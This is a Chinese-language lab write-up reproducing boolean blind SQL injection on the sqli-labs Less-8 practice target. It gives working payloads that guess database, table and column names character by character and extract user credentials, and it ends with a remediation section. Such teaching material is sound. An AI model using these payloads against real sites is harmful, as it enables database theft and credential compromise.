







# SQL注入-布尔盲注漏洞复现（sqli-labs Less-8）

## 一、漏洞简介

布尔盲注适用于页面**没有数据回显、也没有报错信息**，但SQL语句执行成功和失败时页面显示不同的场景。攻击者通过页面返回的“真/假”状态，一位一位地猜解数据。

**影响版本**：PHP + MySQL（未使用参数化查询、无错误回显、无数据回显的场景）

**漏洞危害**：数据库敏感信息泄露、数据篡改、甚至获取服务器控制权

## 二、实验环境

PHPStudy（Apache + MySQL）搭建的 sqli-labs 靶场 Less-8，浏览器直接访问。

## 三、布尔盲注 vs 联合注入 vs 报错注入

Less-1 联合注入：页面有数据回显，可以直接把数据“查”出来。

Less-5 报错注入：页面无数据回显，但会显示数据库报错，可以把数据“报错”出来。

Less-8 布尔盲注：页面既无数据回显，也无报错信息。唯一能区分的是SQL语句执行成功时页面显示“You are in...”，执行失败时页面空白。攻击者就靠这个“真/假”差异来猜数据。

三种注入方式的适用性：联合注入最快但条件最苛刻，报错注入较快但需要错误回显，布尔盲注最慢但适用性最广。

## 四、漏洞复现步骤

### 4.1 确认注入点

访问 Less-8：

http://127.0.0.1/sqli-labs/Less-8/?id=1

页面显示 "You are in..."，正常回显。

在参数后添加单引号测试：

http://127.0.0.1/sqli-labs/Less-8/?id=1'

页面空白，说明输入被拼接到了SQL语句中，存在注入。

### 4.2 确认页面差异（真/假状态）

验证条件为真时页面的表现：

?id=1' and 1=1--+

页面显示 "You are in..."（真）。

验证条件为假时页面的表现：

?id=1' and 1=2--+

页面空白（假）。

这就确认了判断标准：正常页面 = 条件为真，空白页面 = 条件为假。

### 4.3 猜数据库名长度

?id=1' and length(database())=8--+

页面显示 "You are in..."，说明条件为真，数据库名长度为 8 个字符。

> **length() 函数**：返回字符串的长度。这里用于判断数据库名的字符数。

如果返回空白，就逐一修改数字（1,2,3...）继续尝试，直到页面正常为止。

### 4.4 猜数据库名第一个字母

?id=1' and ascii(substr(database(),1,1))=115--+

页面显示 "You are in..."，说明条件为真，数据库名第一个字母的ASCII码是115，对应字母 `s`。

> **substr() 函数**：`substr(str, pos, len)` 从字符串 str 的第 pos 位开始截取 len 个字符。这里 `substr(database(),1,1)` 截取数据库名的第1个字符。

> **ascii() 函数**：返回字符的ASCII码值。字母 `s` 的ASCII码是115。攻击者遍历常见字符的ASCII码（a-z对应97-122），当页面返回真时就知道猜对了。

如果返回空白，就逐一修改ASCII码（97到122对应a-z）继续尝试。

### 4.5 猜完整数据库名

重复上述步骤，修改 `substr()` 的第二个参数来截取不同位置：

第1个字母：ascii=115 → s

第2个字母：ascii=101 → e

第3个字母：ascii=99 → c

第4个字母：ascii=117 → u

第5个字母：ascii=114 → r

第6个字母：ascii=105 → i

第7个字母：ascii=116 → t

第8个字母：ascii=121 → y

拼接得到完整数据库名：`security`

### 4.6 猜表名

用同样的方法猜 `security` 库下的表名。先猜表名长度，再逐个字母猜：

?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101--+

逐个位置猜解，得到第一个表名为 `emails`。修改 `limit` 参数继续猜其他表名，依次得到 `referers`、`uagents`、`users`。

### 4.7 猜列名（以users表为例）

先猜列数（用 limit 逐条测试），再逐个猜列名。

第一个列名：`id`

第二个列名：`username`

第三个列名：`password`

### 4.8 猜数据

逐行逐字符猜解 `users` 表中的用户名和密码。每条数据需要遍历每个字符的ASCII码，最终获取所有用户凭据。

## 五、漏洞原理分析

正常SQL语句（Less-8源码）：

SELECT * FROM users WHERE id='$id' LIMIT 0,1

攻击者输入：1' and ascii(substr(database(),1,1))=115--+

拼接后SQL：

SELECT * FROM users WHERE id='1' and ascii(substr(database(),1,1))=115--+' LIMIT 0,1

攻击原理：

第一步，用 `and` 拼接一个条件判断语句。第二步，`substr(database(),1,1)` 截取数据库名的第1个字符。第三步，`ascii()` 将该字符转为ASCII码，与攻击者猜测的值比较。第四步，如果猜对了，整个条件为真，页面正常显示。如果猜错了，条件为假，页面空白。

攻击者遍历所有可能的ASCII码（a-z、0-9、特殊字符），通过页面真/假状态逐位还原数据。这种方法速度极慢但适用性最广，在联合注入和报错注入都无法使用时，布尔盲注往往能发挥作用。

## 六、修复方案

最有效的修复方式是使用**参数化查询/预编译**（PDO或MySQLi的prepare方法），从根源消除注入。

辅助措施包括：关闭数据库错误回显（`display_errors=Off`）、对输入中的特殊字符进行过滤或转义、数据库账户遵循最小权限原则仅授予必要权限。

## 七、总结

布尔盲注的核心是利用页面返回的真/假状态差异来猜解数据。关键函数是 `length()` 判断长度、`substr()` 截取字符、`ascii()` 字符转ASCII码。

最大的缺点是需要逐个字符遍历猜解，速度极慢。但适用性最广，只要页面在SQL执行成功和失败时有一丁点差异（哪怕是页面大小不同、响应时间不同），就能利用布尔盲注。
